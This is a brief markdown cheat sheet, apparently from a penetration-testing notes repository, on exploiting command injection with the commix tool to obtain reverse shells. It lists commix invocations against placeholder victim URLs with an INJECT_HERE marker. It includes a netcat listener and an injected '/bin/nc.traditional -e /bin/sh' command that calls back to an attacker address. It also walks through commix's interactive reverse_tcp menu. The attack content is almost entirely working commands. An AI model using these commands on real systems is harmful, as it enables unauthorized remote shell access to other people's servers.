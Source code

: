 Commix Reverse Shell
====================

READ THIS LINK!!
https://github.com/commixproject/commix/wiki/Reverse-Shells

Load from saved file (contains cookies, tokens, etc)
---------------------------------------------------
```bash
commix -r /must/use/full/path/to/file.txt
```
Examples
---------
```bash
# Notice the "INJECT_HERE" param
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch 
# Use proxy to make sure you are doing what you think you are
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch --proxy=http://localhost:8080
# --data is used for POST and adds the data to the body, not the url
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php' --data=ip="INJECT_HERE" --os=unix --batch --proxy=http://localhost:8080
```


Technique 1
-----------
```bash
# Start NC listener on attackers server
nc -lvp 1234

commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```
Technique 2
-----------
````bash
# Start NC listener on attackers server
nc -lvp 1234

# Exploit Found

os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
